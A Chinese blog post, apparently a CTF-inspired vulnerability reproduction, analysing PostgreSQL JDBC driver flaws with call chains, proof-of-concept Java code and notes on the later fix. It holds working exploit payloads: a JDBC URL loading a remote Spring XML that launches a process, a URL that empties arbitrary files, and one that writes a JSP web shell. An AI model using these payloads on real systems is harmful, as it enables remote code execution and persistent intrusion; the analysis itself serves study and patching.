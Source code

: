 ```yaml
---
layout: post
title: PostGrasql CVE复现
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: shzqi
---
```


 

## 前言

```java
在冀信杯中就看到过这个漏洞，当时只是利用没看原理，直接打的远程xml命令执行，在后来的安洵杯也遇到了，只不过用的是另外的任意文件写入，特别来跟一下流程。
```

```java
JDBC java数据库连接，是Java语言中用来规范客户端如何访问数据库的应用程序接口，具体讲就是通过Java连接广泛数据库，并对表中数据执行增、删、改、查等操作的技术。
当程序中 JDBC 连接 URL 可控时，可能会造成安全问题。比较具有代表性的就是 JDBC 反序列化漏洞，是在于 mysql 数据库连接时产生的
```

​	

## 任意代码执行 socketFactory/socketFactoryArg

​	影响范围：

- REL9.4.1208 <= PostgreSQL <42.2.25
- 42.3.0 <= PostgreSQL < 42.3.2

这个漏洞主要产生的原因是，`org.postgresql.util.ObjectFactory` 里面调用了`instantiate` 方法

![image-20231224205642825](..\img\final\image-20231224205642825.png)

大概意思就是对classname类名的String构造方法，赋值stringarg并进行初始化

`任意执行某个类的string构造方法`，因此只要找到一个符合这样条件的类即可

![image-20231224205955928](..\img\final\image-20231224205955928.png)

传入的参数都是通过 `Properties info`来获得的，所以能直接反射修改:

#### 调用链子

```java
instantiate:62, ObjectFactory (org.postgresql.util)
getSocketFactory:39, SocketFactoryFactory (org.postgresql.core)
openConnectionImpl:184, ConnectionFactoryImpl (org.postgresql.core.v3)
openConnection:51, ConnectionFactory (org.postgresql.core)
<init>:225, PgConnection (org.postgresql.jdbc)
makeConnection:466, Driver (org.postgresql)
connect:265, Driver (org.postgresql)
getConnection:664, DriverManager (java.sql)
getConnection:270, DriverManager (java.sql)
```

### 漏洞利用

通过加载远程恶意XML实现RCE，先看一个案例

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class cve2022 {
    public static void main(String[] args) throws SQLException, SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:9999/poc.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
           
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231224212159159](..\img\final\image-20231224212159159.png)

关键的地方在`org.postgresql.Driver#connect` ,这里通过parseURL对传入的url进行了解析存入了prpos也就是info中

![image-20231224213235810](..\img\final\image-20231224213235810.png)

进入导致传入`ObjectFactory ` 的形参都是可控的，这里初始化的是

`org.springframework.context.support.ClassPathXmlApplicationContext`

![image-20231224213416888](..\img\final\image-20231224213416888.png)

![image-20231224213602623](..\img\final\image-20231224213602623.png)

这两个类都可以执行xml代码

![image-20231224220156639](..\img\final\image-20231224220156639.png)

```java
是通过远程加载 bean 配置文件，利用初始化 ProcessImpl 类的 bean 的过程，将任意字符串作为命令行执行内容注入，达到任意命令行命令执行的效果,也就是远程加载xml文件进行解析。
```

#### 调用链子

![image-20231224220724248](..\img\final\image-20231224220724248.png)

## 清空指定的任意文件

```java
 jdbcUrl="jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=java.io.FileOutputStream&socketFactoryArg=test.txt";
```

就可以把任意的test文件进行清空，其实还是利用了实例化类的初始化参数

```java
FileOutputStream fileOutputStream=new FileOutputStream("test.txt");
```

偷张图，这个 图描述的非常直观

![image-20231226174331297](..\img\final\image-20231226174331297.png)

## 任意文件写入 loggerLevel/loggerFile

影响范围：

- 42.1.0 <= PostgreSQL <42.3.3

执行的命令

```java
jdbcUrl="jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=DEBUG&loggerFile=./test.jsp&<%Runtime.getRuntime().exec(request.getParameter(\"i\"));%>\n";
```

![image-20231226174857263](..\img\final\image-20231226174857263.png)

在`setupLoggerFromProperties `中设置日志的一些前提要求，这里props是数组解析我们传入的参数，首先 获得LOGGER_LEVEL不为空，否则进不去执行语句

![image-20231226180337611](..\img\final\image-20231226180337611.png)

然后`driverLogFile`获得存储日志的位置

![image-20231226180508526](..\img\final\image-20231226180508526.png)

最后进入关键的LOGGER.log方法进行存储

![image-20231226180552229](..\img\final\image-20231226180552229.png)

学过jsp的应该知道，jsp会执行<%%>当作java片段，前面的不会影响的

![image-20231226180658595](..\img\final\image-20231226180658595.png)

犹豫对路径没有一点的过滤，所以可以跨目录进行生成

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class cve202221724 {
    public static void main(String[] args) throws SQLException {
        String loggerLevel = "debug";
        String loggerFile = "test.txt";
        String shellContent="test";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test?loggerLevel="+loggerLevel+"&loggerFile="+loggerFile+ "&"+shellContent;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

和任意代码执行的出口不一样

![image-20231226180806337](..\img\final\image-20231226180806337.png)

## 在高版本中对这些现象进行了修复

高版本规定了，反射的类，必须是javax.net.SocketFactory的子类，否则就抛出异常

![image-20231226181352838](..\img\final\image-20231226181352838.png)

对比一下发现把this.setupLoggerFromProperties(props);删除掉了（也就是说不能指定存储文件的位置了）

![image-20231226181804490](..\img\final\image-20231226181804490.png)
